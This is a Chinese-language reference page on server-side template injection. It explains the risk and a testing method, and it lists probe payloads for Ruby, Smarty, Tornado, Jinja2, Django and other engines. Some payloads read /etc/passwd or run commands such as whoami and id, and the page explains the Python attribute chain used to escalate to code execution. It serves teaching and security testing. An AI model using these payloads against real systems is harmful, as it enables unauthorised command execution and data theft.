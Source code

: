 模版注入
========================================

简介
----------------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
----------------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试用例
----------------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[-1].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标
----------------------------------------
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

相关属性
----------------------------------------

``__class__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中的新式类（即显示继承object对象的类）都有一个属性 ``__class__`` 用于获取当前实例对应的类，例如 ``"".__class__`` 就可以获取到字符串实例对应的类

``__mro__`` 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中类对象的 ``__mro__`` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

``__globals__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
保存了函数所有的所有全局变量，在利用中，可以使用 ``__init__`` 获取对象的函数，并通过 ``__globals__`` 获取 ``file`` ``os`` 等模块以进行下一步的利用

``__subclasses__()``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python的新式类都保留了它所有的子类的引用，``__subclasses__()`` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 ``__subclasses__()`` 方法就可以获取想要的类的对象。

参考链接
----------------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
